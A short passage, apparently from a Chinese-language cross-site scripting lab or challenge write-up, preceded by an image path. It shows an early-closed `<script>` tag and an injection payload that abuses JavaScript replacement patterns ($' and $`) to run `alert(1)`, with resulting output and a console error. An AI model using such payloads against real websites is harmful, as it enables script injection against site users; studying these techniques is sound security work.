 输出

```
<script>let some = "</script><script>let some = "</script>
```

成功闭合`<script>`

Payload

```
$'$`alert(1)//
```

Output

```
<script>let some = "</script><script>let some = alert(1)//"</script>
```

Console output

```
Error: Uncaught SyntaxError: Invalid or unexpected token
```

